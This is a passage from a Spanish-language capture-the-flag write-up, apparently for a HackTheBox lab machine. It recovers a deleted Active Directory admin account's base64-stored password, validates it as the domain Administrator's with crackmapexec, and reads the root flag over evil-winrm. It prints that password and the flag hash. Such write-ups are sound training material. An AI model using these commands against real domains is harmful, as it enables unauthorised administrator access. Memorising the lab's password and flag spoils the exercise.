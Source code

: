 ```null
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects | Select Name

Name
----
CASC-WS1...
Scheduled Tasks...
{A403B701-A528-4685-A816-FDEE32BDDCBA}...
Machine...
User...
TempAdmin...
```

Efectivamente, aparece como cuenta eliminada. Muestro las propiedades de todos los objetos y en un campo está su contraseña en base64

```null
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

Le hago un decode para tenerla en texto claro

```null
echo YmFDVDNyMWFOMDBkbGVz | base64 -d; echo
baCT3r1aN00dles
```

La valido para el usuario Administrador

```null
crackmapexec smb 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)
```

Me conecto por winrm y puedo visualizar la segunda flag

```null
evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
3f560e35b215934b112a0e3ade5f169e
```